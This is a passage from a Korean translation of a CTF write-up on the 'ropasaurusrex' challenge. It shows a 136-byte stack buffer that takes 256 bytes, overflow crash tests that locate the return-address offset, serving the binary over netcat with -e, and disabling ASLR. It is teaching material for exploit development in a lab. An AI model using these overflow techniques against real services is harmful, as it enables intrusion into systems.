어셈블리를 모른다면, 좀 벅차보일 것이다. 하지만 사실 간단하다. 같은 함수의 C 코드다:

``` c
ssize_t __cdecl vulnerable_function()
{
  char buf[136];
  return read(0, buf, 256);
}
```

256바이트를 읽어 136바이트 버퍼에 넣는다. 즐거웠어요 스택 씨!

이걸 실행함으로써 쉽게 확인할 수 있다. 'A' 뭉치를 파이프로 넣고, 어떻게 되는지 보자:

``` sh
ron@debian-x86 ~ $ ulimit -c unlimited
ron@debian-x86 ~ $ perl -e "print 'A'x300" | ./ropasaurusrex
Segmentation fault (core dumped)
ron@debian-x86 ~ $ gdb ./ropasaurusrex core
[...]
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()
(gdb)
```

간단히 말해서, 이건 우리가 반환 주소를 글자 A 4개(`0x41414141`="AAAA")로 덮어썼다는 말이다.

이제, 정확히 뭘 조종하고 있는 건지 알아내기 위한 좋은 방법이 있고 나쁜 방법이 있다. 나는 나쁜 방법을 썼다. 내 버퍼 끝에 "BBBB"를 넣고 `0x42424242`("BBBB")에서 크래시를 일으킬 때까지 'A'를 지웠다.

``` sh
ron@debian-x86 ~ $ perl -e "print 'A'x140;print 'BBBB'" | ./ropasaurusrex
Segmentation fault (core dumped)
ron@debian-x86 ~ $ gdb ./ropasaurusrex core
#0  0x42424242 in ?? ()
```

이걸 좀 더 "잘" (내 뜻은, 더 천천히) 하고 싶으면, Metasploit의 [pattern_create.rb][]와 [pattern_offset.rb][]를 보라. 이건 추측이 느린 작업일 때 굉장히 좋지만, 이 문제의 경우에는 추측과 확인이 빨라 나는 쓰지 않았다.

[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_offset.rb

## <a id="starting-to-write-an-exploit"></a>익스플로잇 제작 시작하기

가장 먼저 해야 할 일은 `ropasaurusrex`를 네트워크 서비스로 실행시키는 것이다. CTF 주최자들은 [xinetd][]를 썼지만, 우리는 (우리의 목적에) 그만큼 좋은 [netcat][]을 쓸 것이다.

[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat

``` sh
$ while true; do nc -vv -l -p 4444 -e ./ropasaurusrex; done
listening on [any] 4444 ...
```

이제부터 우리는 `localhost:4444`를 익스플로잇 대상으로 쓸 수도 있고 실제 서버에도 작용하는지 테스트 할 수도 있다.

ASLR을 끄고 싶다면:

``` sh
$ sudo sysctl -w kernel.randomize_va_space=0
```


[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://blog.skullsecurity.org/wiki/index.php/The_Stack
[^1]: 링크가 [바뀌었다](https://wiki.skullsecurity.org/Assembly).
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump